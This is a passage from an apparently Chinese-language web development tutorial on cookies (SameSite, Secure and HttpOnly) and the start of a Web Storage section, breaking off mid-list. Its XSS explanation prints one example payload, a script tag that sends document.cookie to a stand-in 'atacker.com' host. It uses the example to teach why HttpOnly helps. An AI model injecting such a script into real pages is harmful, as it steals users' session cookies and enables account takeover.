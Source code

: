 在前段时间，Chrome 更新 80 版本时，将 Cookie 的跨站策略（SameSite）默认设置为了`Lax`，即仅允许同站或者子站访问 Cookie，而老版本是 `None`，即允许所有跨站 Cookie

这会导致用户访问 `xyz.com` 时，浏览器默认将不会发送 Cookie 给 `taobao.com`，导致第三方 Cookie 失效的问题

要解决的话，在返回请求的 header 里将 SameSite 设置为 `None` 即可

```
Set-Cookie: userId=123; SameSite=None
```

### Secure, HttpOnly

Cookie 还有两个常用属性 `Secure` 和 `HttpOnly`

```
Set-Cookie: userId=123; SameSite=None; Secure; HttpOnly
```

其中 `Secure` 是只允许 Cookie 在 HTTPS 请求中被使用

而 `HttpOnly` 则用来禁止使用 JS 访问 cookie

```
ducoment.cookie // 访问被禁止了
```

这样最大的好处是避免了 XSS 攻击

## XSS 攻击

比如你在水一个论坛，这个论坛有个 bug：不会对发布内容中的 HTML 标签进行过滤

某一天，一个恶意用户发了个帖子，内容如下：

```
<script>window.open("atacker.com?cookie=" + document.cookie</script> 
```

当你访问这条帖子的内容时，浏览器就会执行 `<script>` 中的代码，导致你的 Cookie 被发送给攻击者，接着攻击者就可以利用你的 Cookie 登录论坛，然后为所欲为了

XSS 攻击在很多情况下，用户甚至不会知道自己被攻击了，比如利用 `<img/>` 的 `src` 属性，就可以做到悄无声息的把用户的信息发给攻击者

而当设置了 `HttpOnly` 后，`ducoment.cookie` 将获取不到 Cookie，攻击者的代码自然就无法生效了

**Cookie 总结**

总而言之，Cookie 在今天的适用场景其实比较有限，当你需要在本地储存数据时，由于安全性和储存空间的问题，一般不推荐使用 Cookie，大部分情况下使用 Web Storage 是个更好的选择

# Web Storage

在 2014 年年底发布的 HTML5 标准中，新增了一个 Web Storage 的本地储存方案，其包括

- LocalStorage
- SessionStorage

SessionStorage 和 LocalStorage 使用方法基本一致，唯一不同的是，一旦关闭页面，SessionStorage 将会删除数据；因此这里主要以 LocalStorage 为例

LocalStorage 的特点是：
